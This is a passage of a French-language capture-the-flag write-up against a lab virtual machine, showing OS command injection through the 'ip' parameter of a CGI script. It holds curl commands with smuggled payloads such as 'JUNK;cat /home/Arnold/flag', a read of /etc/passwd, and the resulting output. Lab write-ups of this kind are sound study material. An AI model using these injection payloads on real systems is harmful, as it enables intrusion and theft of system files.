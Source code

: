 ```grep``` montre vite ses limites avec les sauts de ligne et les retours chariot, heureusement ```sed``` arrive à la rescousse !

```console
root@blinils:~# curl -v --silent http://192.168.56.101/cgi-bin/lawrence/trace.cgi?ip=JUNK%3Bls 2>&1 | sed -n '/<pre>/,/<\/pre>/p' #ls
<pre>
HINT
example.sh
lawrence
</pre>

root@blinils:~# curl -v --silent http://192.168.56.101/cgi-bin/lawrence/trace.cgi?ip=JUNK%3Bcat%20HINT 2>&1 | sed -n '/<pre>/,/<\/pre>/p' #cat HINT
<pre>
<--flag: I'm afraid in order to escape this place, you will need to suffer more.-->
The final flag is a file on root's desktop. Get it through the webshell.</pre>

root@blinils:~# curl -v --silent http://192.168.56.101/cgi-bin/lawrence/trace.cgi?ip=JUNK%3Buname%20-v 2>&1 | sed -n '/<pre>/,/<\/pre>/p' #uname -v
<pre>
#18~18.04.1-Ubuntu SMP Fri Mar 15 15:27:12 UTC 2019
</pre>
```

L'option ```-G``` de __grep__ suivie de ```--data-urlencode``` permet de nous affranchir de l'encodage du paramètre ```ip```. 

```console
root@blinils:~# curl -v --silent -G "http://192.168.56.101/cgi-bin/lawrence/trace.cgi" \
--data-urlencode "ip=JUNK;uname -v;" 2>&1 | sed -n '/<pre>/,/<\/pre>/p'
<pre>
#18~18.04.1-Ubuntu SMP Fri Mar 15 15:27:12 UTC 2019
</pre>
```

Et pour davantage de lisibilité, il est possible de stocker la commande souhaitée dans une variable d'environnement.

```console
root@blinils:~# export WEST='tail -n2 /etc/passwd'
root@blinils:~# curl -v --silent -G "http://192.168.56.101/cgi-bin/lawrence/trace.cgi" \
--data-urlencode "ip=$WEST" 2>&1 | sed -n '/<pre>/,/<\/pre>/p'
<pre>
Dolores:x:1002:1002::/home/Dolores:/bin/sh
Arnold:x:1003:1003::/home/Arnold:/bin/sh
</pre>

root@blinils:~# export WEST='JUNK; cat /home/Arnold/flag'
root@blinils:~# curl -v --silent -G "http://192.168.56.101/cgi-bin/lawrence/trace.cgi" \
--data-urlencode "ip=$WEST" 2>&1 | sed -n '/<pre>/,/<\/pre>/p'
<pre>
# <--flag: The piano doesn’t murder the player if it doesn’t like the music.--></pre>
```

Avec cette injection de commandes, il est aisé de démontrer que la page ```admin.php``` trouvée par DIRB est un leurre.
